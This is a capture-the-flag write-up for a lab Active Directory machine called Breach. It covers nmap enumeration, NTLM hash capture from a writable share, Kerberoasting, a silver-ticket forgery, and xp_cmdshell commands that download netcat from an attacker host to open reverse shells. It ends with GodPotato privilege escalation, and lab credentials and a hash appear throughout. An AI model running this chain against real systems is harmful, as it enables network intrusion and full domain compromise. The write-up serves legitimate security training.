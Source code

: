 # Enumeration
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-02 15:35:39Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.66.37:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.66.37:1433: 
|     Target_Name: BREACH
|     NetBIOS_Domain_Name: BREACH
|     NetBIOS_Computer_Name: BREACHDC
|     DNS_Domain_Name: breach.vl
|     DNS_Computer_Name: BREACHDC.breach.vl
|     DNS_Tree_Name: breach.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-04-02T15:27:12
|_Not valid after:  2054-04-02T15:27:12
|_ssl-date: 2024-04-02T15:36:27+00:00; 0s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-02T15:36:27+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
| Not valid before: 2024-04-01T15:26:10
|_Not valid after:  2024-10-01T15:26:10
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Computer_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Name: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-02T15:35:47+00:00
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49669/tcp open  msrpc      Microsoft Windows RPC
56060/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
56282/tcp open  msrpc      Microsoft Windows RPC
56292/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Enumerating SMB shares found a share we can write in.
![](attachment/cde18895133a5d482d2c7a991558d0f4.png)
# Exploitation
We can try capturing NTLM hashes as it seems to be used regularly.
We can make a malicious url:
![](attachment/45c0521f852f374349bf04834af2c6cb.png)
Now we get a hash for Julia.Wong which upon cracking we got the password as *Computer1*.

Now using bloodhound.py we ingest the data:
```
bloodhound.py -dns-tcp -u 'Julia.Wong' -p 'Computer1' -ns 10.10.103.38 -c all -d breach.vl
```

And notice a **kerberoastable** user![](attachment/f893bed742775f82be89465c805dd053.png)
Using impackets **GetUserSPNs**:
```
GetUserSPNs.py -dc-ip 10.10.103.38 breach.vl/Julia.Wong:Computer1 -request-user svc_mssql
```
We get the hash for this user which we can crack: *svc_mssql : Trustno1*

## Silver Ticket
Now trying a silver ticket attack:
```
ticketer.py -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl administrator
```
We get the ticket.

Now using mssqlclient to login as administrator:
```
KRB5CCNAME=administrator.ccache mssqlclient.py breach.vl -k -no-pass -windows-auth
```

To get a reverse shell:
```
EXEC xp_cmdshell 'powershell.exe wget http://10.8.1.208/nc64.exe -OutFile c:\Users\Public\nc.exe"'
```

```
EXEC xp_cmdshell 'c:\Users\Public\nc.exe -e cmd.exe 10.8.1.208  4445'
```

We get a shell:
![](attachment/429d7b88969de1a2730ea17a675b4b66.png)

## PrivEsc

We can check privileges:
![](attachment/dec54d514f3ed8cbb5422546a62cc4e9.png)

We can use GodPotato and checking .NET version:
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\full" /v version
```
![](attachment/458ae9cf596992a5dfc150cc67461aa6.png)
Transfer  Godpotato
```
wget 'http://10.8.1.208/GodPotato-NET4.exe' -o
```
Use godpotato for privesc:
```
.\GodPotato-NET4.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe  10.8.1.208 9005"
```
![](attachment/abe9ec6b6f590ab75ca09e70330049dd.png)
